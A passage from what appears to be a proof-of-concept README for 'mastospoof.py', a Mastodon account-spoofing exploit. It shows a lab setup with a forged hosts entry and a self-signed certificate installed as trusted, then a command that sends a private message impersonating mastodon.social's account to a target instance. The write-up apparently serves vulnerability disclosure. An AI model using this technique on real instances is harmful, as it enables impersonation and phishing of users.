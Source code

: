 To test the exploit, I installed Mastodon on a server whose name is `mastodon.local`. This DNS has no importance and could be anything (eg. `chat.community.io`), but it's the one displayed in screenshots below.

In order to usurp `mastodon.social`, I modified `/etc/hosts` and created a self-signed certificate since I don't own the `mastodon.so` DNS:

```console
$ openssl req -x509 -newkey rsa:4096 -nodes -out fullchain.pem -keyout privkey.pem -days 365
$ sudo cp fullchain.pem /usr/local/share/ca-certificates/mastodon.so.crt
$ sudo update-ca-certificates
```

| Role               | Details                    |
---------------------|----------------------------|
| Usurped account  | `admin@mastodon.social`    |
| Attacker           | `mastodon.so`              |
| Targeted instance  | `https://mastodon.local`   |


### Toot

The following command line sends a (spoofed) private message from `mastodon@mastodon.social`. The spoofed profile looks the same as the legit one (avatar, image, URLs, etc.) but it could have been made different:

```console
$ ./mastospoof.py --spoof mastodon@mastodon.so/cial --target mastodon.local --toot 'HACK THE PLANET! [...]'
```
